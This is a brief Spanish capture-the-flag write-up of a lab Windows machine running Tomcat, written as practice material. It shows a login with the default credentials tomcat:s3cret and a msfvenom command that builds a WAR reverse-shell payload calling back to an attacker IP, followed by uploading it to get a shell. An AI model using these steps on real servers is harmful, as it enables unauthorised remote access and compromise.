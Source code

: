 10.10.10.95
Windows
Port: 8080

- Vamos a ver su pagina web.
- Tenemos un Tomcat, por lo tanto existe un login para poder entrar.
![[Pasted image 20250317174502.png]](./Imagenes/Pasted_image_20250317174502.png)
- Sabemos que por lo general cuando no se configura bien, Tomcat viene con usuarios predefinidos, vamos a probar cada usuario
- Las credenciales eran, ==tomcat:s3cret==.
![[Pasted image 20250317175955.png]]
- Tenemos como subir un archivo para hacer una reverse.
- Vamos a hacer un payload con msfvenom.
```
msfvenom -p java/shell_reverse_tcp LHOST=(IP_ATACANTE) LPORT=443 -f war -o (NOMBRE)
```
![[Pasted image 20250317180229.png]]
- Vamos a subirlo.
![[Pasted image 20250317180320.png]]
- Ya esta subido, vamos a hacer la reverse y recordar hacer otra reverse estando dentro para tener una conexión mas estable.
![[Pasted image 20250317180523.png]]
- Ya estamos dentro.
- Buscamos y encontraremos las flags de usuario y root.